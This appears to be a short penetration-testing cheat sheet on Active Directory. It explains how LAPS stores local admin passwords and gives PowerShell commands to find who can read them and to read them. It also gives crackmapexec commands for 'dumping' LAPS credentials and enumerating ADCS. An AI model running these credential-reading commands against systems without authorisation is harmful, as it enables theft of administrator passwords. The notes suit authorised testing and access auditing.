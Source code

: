# LAPS
LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES       

When using LAPS, 2 new attributes appear in the computer objects of the domain: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Commands
```powershell
# Check if LAPS is activated
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## Dumping credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```



# Active Directory Certificate Services (ADCS)
Active Directory Certificate Services (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.     
- [https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview)

## Enumeration
Here, one should look for services that haven't been discovered before.
```sh
crackmapexec ldap <ip> -u <username> -p <password> -M adcs
```